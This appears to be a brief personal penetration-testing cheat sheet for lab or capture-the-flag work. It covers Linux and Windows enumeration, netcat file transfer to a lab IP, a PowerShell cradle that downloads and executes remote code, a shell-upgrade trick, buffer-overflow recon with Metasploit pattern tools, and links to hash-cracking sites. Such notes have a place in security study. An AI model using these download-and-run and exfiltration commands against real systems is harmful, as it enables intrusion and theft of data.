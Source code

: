 Tips
=================================================

LinuxEnum: 
--------------------------------------------------

find / -perm -4000 2>/dev/null   //SUID files  \n
uname -a                         //Posible Linux Kernel Exploit

WindowsEnum:
--------------------------------------------------
whoami /all
systeminfo


File Transfer:
--------------------------------------------------
### nc:
nc -l -p 4445 > ovrflw
nc -w 5 10.10.14.18 4445 < /usr/local/bin/ovrflw

### powershell:

iex(New-Object System.Net.WebClient).DownloadString('http://10.10.10.10:8000/file')
Invoke-WebRequest "http://10.10.10.10/file.exe" -OutFile "C:\Users\Public\file.exe"
Invoke-RestMethod "http://10.10.10.10/file.exe" -OutFile "C:\Users\Public\file.exe"

Interactive shell:
--------------------------------------------------
python3 -c "import pty;pty.spawn('/bin/bash')"
Ctrl+Z
stty raw -echo
fg

BufOverFlow:
--------------------------------------------------
ldd ovrflw | grep libc
readreadelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
readreadelf -s /lib/i386-linux-gnu/libc.so.6 | grep exit 

Create pattern: /opt/metasploit-framework/tools/exploit/pattern_create.rb -l 100
Pattern Offset: /opt/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x0000000


Hashes decrypt:
--------------------------------------------------
https://cmd5.ru/
https://hashes.org/

Links:
--------------------------------------------------
<https://book.hacktricks.xyz/    /////Cheat Sheet Pentesting all the thing>
https://github.com/egre55/ultimate-file-transfer-list/blob/master/README.md    //////File Transfer Cheat Sheet
https://www.hackingarticles.in/a-little-guide-to-smb-enumeration/   /////////SMB enumeration CheatSheet
https://tcm-sec.com/2019/05/25/buffer-overflows-made-easy/    //////////BuferOverFlow tutor
